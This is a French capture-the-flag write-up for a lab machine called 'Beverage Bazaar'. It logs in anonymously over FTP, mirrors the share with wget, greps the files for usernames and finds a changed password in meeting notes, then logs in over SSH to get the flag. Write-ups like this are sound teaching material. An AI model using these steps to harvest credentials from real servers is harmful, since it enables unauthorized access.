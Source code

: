 # WRITE-UP BEVERAGE BAZAAR

## Serveur FTP

On n'a aucun identifiant pour se connecter sur la machine.
On essaye donc de se connecter en utilisateur anonyme sur le serveur FTP :

```bash
ftp 192.168.1.1
Connected to 192.168.1.1.
220 Welcome to PopaCola file server.
Name (192.168.1.1:username): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

BINGO, on est connecté, plus qu'à trouver les fichiers d'intérêt dans le vault Obsidian !

## Chasse aux identifiants

```bash
wget -m ftp://anonymous:null@192.168.1.1:21 -P output_folder
```

> Note: Sans l'option `-m` sur `wget`, on n'aurait pas copié l'arborescence complète et on serait passé à côté du fichier intéressant.

Plusieurs fichiers ont l'air intéressant, notamment ceux concernant les utilisateurs de l'entreprise.
On trouve plusieurs comptes utilisateurs dans le répertoire `PopaCola_Vault\02_IT\02_System_Administration\User_Accounts\` : `amartin`, `mdupuis` et `sleclerc`.

Cependant, on s'aperçoit vite que les mots de passe donnés ne fonctionnent pas, on peut donc chercher à rechercher les différents nom d'utilisateur dans les fichiers :

```bash
grep -ERi "\smarc|\salicia|\ssophie" output_folder
```

Dans le fichier `Meeting_Notes_March.md` on apprend que le mot de passe de Marc a été changé.

On essaye de se connecter en SSH sur la machine avec `<username>:<password>` et on a notre flag !


